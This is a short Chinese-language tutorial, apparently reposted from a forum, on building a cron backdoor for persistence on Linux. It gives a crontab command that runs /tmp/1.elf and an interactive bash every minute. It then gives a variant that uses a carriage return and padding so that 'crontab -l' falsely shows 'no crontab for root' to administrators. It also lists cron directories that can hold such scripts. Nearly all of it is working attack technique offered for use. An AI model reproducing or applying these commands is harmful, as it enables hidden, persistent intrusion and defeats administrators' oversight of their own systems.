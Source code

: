 # Cron后门

> 原文：[https://www.zhihuifly.com/t/topic/3490](https://www.zhihuifly.com/t/topic/3490)

# Cron后门

**Cron介绍**

在Linux系统中，计划任务一般是由cron承担，我们可以把cron设置为开机时自动启动。cron启动后，它会读取它的所有配置文件（全局性配置文件/etc/crontab，以及每个用户的计划任务配置文件），然后cron会根据命令和执行时间来按时来调用工作任务。

**Cron后门**

> cron表达式在线生成：

http://qqe2.com/cron

```
(crontab -l;echo '*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i')|crontab - 
```

![image](img/36ec548077b21e9f66ae28230ceb9b95.png)

这样执行会在crontab列表里出现，如果是如上执行的话，管理员执行crontab -l就能看到执行的命令内容不是特别隐蔽。

那么就有了一个相对的高级用法，下面命令执行后会显示”no crontab for root”。其实就达到了一个隐藏的效果，这时候管理员如果执行crontab -l就会看到显示”no crontab for root”。

```
(crontab -l;printf "*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab - 
```

![image](img/34c64f7de286dc5532afd9735128501e.png)

实际上是他将cron文件写到文件中。/var/spool/cron/crontabs/root 。而crontab -l就是列出了该文件的内容。

通常cat是看不到这个的，只能利用less或者vim看到，这也是利用了cat的一个缺陷，后面会讲到。

![image](img/093977426a45e11f5408fa7927d234d2.png)

/etc/cron.d/ /etc/cron.daily/ /etc/cron.weekly/ /etc/cron.hourly/ /etc/cron.monthly/ 这几个路径都可以存放cron执行脚本,对应的时间不同。